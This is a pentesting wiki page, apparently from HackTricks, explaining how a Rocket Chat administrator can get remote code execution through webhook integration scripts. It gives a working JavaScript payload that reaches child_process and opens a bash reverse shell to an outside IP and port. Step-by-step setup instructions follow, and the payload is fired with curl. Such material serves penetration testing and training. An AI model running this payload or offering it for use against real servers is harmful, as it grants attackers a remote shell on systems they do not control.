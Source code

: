 # Rocket Chat

{{#include ../../banners/hacktricks-training.md}}


## RCE

If you are admin inside Rocket Chat you can get RCE.

- Got to **`Integrations`** and select **`New Integration`** and choose any: **`Incoming WebHook`** or **`Outgoing WebHook`**.
  - `/admin/integrations/incoming`

<figure><img src="../../images/image (266).png" alt=""><figcaption></figcaption></figure>

- According to the [docs](https://docs.rocket.chat/guides/administration/admin-panel/integrations), both use ES2015 / ECMAScript 6 ([basically JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) to process the data. So lets get a [rev shell for javascript](../../generic-hacking/reverse-shells/linux.md#nodejs) like:

```javascript
const require = console.log.constructor("return process.mainModule.require")()
const { exec } = require("child_process")
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```

- Configure the WebHook (the channel and post as username must exists):

<figure><img src="../../images/image (905).png" alt=""><figcaption></figcaption></figure>

- Configure WebHook script:

<figure><img src="../../images/image (572).png" alt=""><figcaption></figcaption></figure>

- Save changes
- Get the generated WebHook URL:

<figure><img src="../../images/image (937).png" alt=""><figcaption></figcaption></figure>

- Call it with curl and you shuold receive the rev shell


{{#include ../../banners/hacktricks-training.md}}


